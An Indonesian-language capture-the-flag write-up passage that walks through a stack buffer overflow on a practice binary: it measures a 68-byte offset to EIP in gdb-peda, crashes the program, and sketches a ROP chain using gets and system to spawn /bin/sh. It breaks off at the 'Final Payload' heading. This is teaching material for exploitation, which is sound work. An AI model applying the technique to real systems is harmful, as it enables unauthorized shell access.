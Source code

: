 

Ada sebuah global variable `shell` yang mungkin di eksekusi oleh fungsi system di `here` 



### BOF for profit

Karena kita sudah bisa memetakan binary ini kita tinggal mengeksploitasinya. Pertama kita cari tau jarak antara `ebp-0x40` sampai `eip` 



```
gdb-peda$ b*main+106
gdb-peda$ r
---snip---
gdb-peda$ distance $ebp-0x40 $ebp+4
From 0xffffd628 to 0xffffd66c: 68 bytes, 17 dwords
---snip---

```



Jarak antara inputan sampai menyentuh eip adalah 68 byte. Jadi jumlah junknya adalah 68.

```
# python -c "print('a')*68" | ./binary
Selamat datang selamat berbelanja
Mau beli apa kak?
Pesananan anda aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

Okay. 



### ROP and get the Shell

Ide dari exploit ini adalah

Junk sampai menyentuh eip -> mengisi eip dengan `gets` -> memanggil fungsi `here` -> mengisi variable `shell` dengan sesuatu.



Junk

alamat gets

alamat here

alamat shell

shell



Jadi `gets` akan mengisi `shell` dengan shell jadi kita tinggal mempush `/bin/sh` saat gets dicall.



#### Final Payload
